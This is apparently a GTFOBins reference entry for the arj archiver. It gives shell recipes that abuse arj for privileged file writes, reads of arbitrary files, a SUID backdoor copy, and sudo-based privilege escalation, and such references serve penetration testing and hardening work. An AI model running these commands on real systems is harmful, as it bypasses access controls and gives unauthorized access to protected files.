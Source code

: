 # GTFOBin: arj

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The archive can also be prepared offline then uploaded.

```
TF=$(mktemp -d)
LFILE=file_to_write
LDIR=where_to_write
echo DATA >"$TF/$LFILE"
arj a "$TF/a" "$TF/$LFILE"
arj e "$TF/a" $LDIR
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file appears amid some other textual information. The archive can also be downloaded then extracted offline.

```
TF=$(mktemp -u)
LFILE=file_to_read
arj a "$TF" "$LFILE"
arj p "$TF"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The archive can also be prepared offline then uploaded.

```
sudo install -m =xs $(which arj) .

TF=$(mktemp -d)
LFILE=file_to_write
LDIR=where_to_write
echo DATA >"$TF/$LFILE"
arj a "$TF/a" "$TF/$LFILE"
./arj e "$TF/a" $LDIR
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The archive can also be prepared offline then uploaded.

```
TF=$(mktemp -d)
LFILE=file_to_write
LDIR=where_to_write
echo DATA >"$TF/$LFILE"
arj a "$TF/a" "$TF/$LFILE"
sudo arj e "$TF/a" $LDIR
```